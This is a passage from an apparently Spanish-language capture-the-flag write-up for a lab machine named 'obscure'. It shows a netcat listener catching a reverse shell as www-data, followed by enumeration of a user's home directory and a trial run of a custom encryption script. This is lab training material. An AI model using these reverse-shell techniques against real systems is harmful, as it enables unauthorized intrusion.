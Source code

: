 ```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.168] 35894
$ whoami
www-data
$ 
```

Como siempre, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty) para poder trabajar más cómodos. Ahora, vemos que no podemos visualizar la flag, por lo tanto vamos a enumerar un poco el sistema para ver la forma de escalar privilegios. Si entramos al recurso `/home/robert`, vemos algunos archivos en los cuales tenemos permisos de lectura y ejecución.

```bash
www-data@obscure:/home/robert$ ls -l
total 24
drwxr-xr-x 2 root   root   4096 Dec  2  2019 BetterSSH
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rwxrwxr-x 1 robert robert 2514 Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25  2019 user.txt
www-data@obscure:/home/robert$
```

Vemos un programa en python `SuperSecureCrypt.py`, así que antes de ver si código, vamos a ejecutarlo a ver que nos hace.

```bash
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py 
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Missing args
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -h
usage: SuperSecureCrypt.py [-h] [-i InFile] [-o OutFile] [-k Key] [-d]

Encrypt with 0bscura's encryption algorithm

optional arguments:
  -h, --help  show this help message and exit
  -i InFile   The file to read
  -o OutFile  Where to output the encrypted/decrypted file
  -k Key      Key to use
  -d          Decrypt mode
www-data@obscure:/home/robert$
```

Debido a los argmentos, así como al nombre del script, podemos intuir que nos ayuda a cifrar archivos a partir de una llave. Vamos a ver ahora el archivo `check.txt`.
